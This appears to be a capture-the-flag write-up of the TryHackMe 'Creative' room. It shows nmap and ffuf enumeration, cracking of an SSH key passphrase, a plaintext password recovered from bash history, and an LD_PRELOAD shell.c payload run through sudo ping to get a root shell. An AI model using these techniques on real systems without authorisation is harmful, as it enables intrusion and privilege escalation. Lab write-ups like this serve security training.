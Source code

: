 <code>
https://tryhackme.com/r/room/creative

## Service Enumeration 

└─$ nmap  -sV -Pn  10.10.77.215
Starting Nmap 7.92 ( https://nmap.org ) at 2024-04-29 02:44 CDT
Nmap scan report for 10.10.77.215
Host is up (0.037s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.95 seconds

┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ nmap  -A  -Pn  creative.thm
Starting Nmap 7.92 ( https://nmap.org ) at 2024-04-29 03:00 CDT
Nmap scan report for creative.thm (10.10.77.215)
Host is up (0.035s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.75 seconds

### subdomain enumeration 
┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ ffuf -u http://creative.thm -c -w ../../www/wordlists/Subdomain.txt -H 'Host:FUZZ.cretive.thm' -fs 178

## Found beta.creative.thm

### folder enumeration - nothing
┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://creative.thm -x .php, .txt, .html                                    
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://creative.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,
[+] Timeout:                 10s
/assets               (Status: 301) [Size: 178] [--> http://creative.thm/assets/]


┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ ssh2john id_rsa2 > hash.txt
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ john  --wordlist=../../rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:12 0.00% (ETA: 2024-05-03 20:15) 0g/s 41.55p/s 41.55c/s 41.55C/s hockey..camille
sweetness        (id_rsa2)     
1g 0:00:00:23 DONE (2024-04-29 06:09) 0.04293g/s 41.21p/s 41.21c/s 41.21C/s xbox360..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ ssh -i rsa_id7 saad@creative.thm 
Enter passphrase for key 'rsa_id7': 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

### run linpease and found
╔══════════╣ Searching passwords in history files
/home/saad/.bash_history:sudo -l                                                                                    
/home/saad/.bash_history:echo "saad:MyStrongestPasswordYet$4291" > creds.txt
/home/saad/.bash_history:sudo -l
/home/saad/.bash_history:sudo -l
/home/saad/.bash_history:mysql -u root -p
/home/saad/.bash_history:mysql -u root
/home/saad/.bash_history:sudo su
/home/saad/.bash_history:ssh root@192.169.155.104
/home/saad/.bash_history:mysql -u user -p
/home/saad/.bash_history:mysql -u db_user -p
/home/saad/.bash_history:ls -ld /var/lib/mysql

## saad:MyStrongestPasswordYet$4291

saad@m4lware:/tmp$ sudo -l
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping

 /etc/apache2/sites-available/default-ssl.conf:              #        file needs this password: `xxj31ZMTZzkVA'.


## env_keep+=LD_PRELOAD Found after sudo -l

saad@m4lware:~$ sudo -l
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping


### cat shell.c

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	}

### Download to /tmp on victim PC
### Compile

saad@m4lware:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    6 |  setuid(0);
      |  ^~~~~~
shell.c:7:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    7 |  setgid(0);
      |  ^~~~~~
### Run

saad@m4lware:/tmp$ sudo LD_PRELOAD=/tmp/shell.so ping

### get root
root@m4lware:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@m4lware:/tmp# 



<\code>
